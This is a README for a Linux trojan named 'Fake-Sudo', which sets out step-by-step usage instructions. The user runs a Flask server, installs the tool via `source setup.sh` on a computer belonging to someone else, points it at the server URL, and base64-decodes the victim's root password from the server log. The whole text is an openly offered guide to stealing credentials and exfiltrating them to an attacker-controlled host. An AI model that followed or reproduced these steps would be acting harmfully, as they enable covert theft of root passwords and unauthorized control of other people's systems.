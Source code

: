 # Fake-Sudo
A linux trojan
## How to use
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Make a server<br>`python3 flask.py`
3. Go to the computer you want to steal the root password from
4. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
5. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
6. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
7. Once the server log says something, copy the end of the url and decode it<br>`echo [end of url] | base64 -d` That's the root password!
8. That's it!

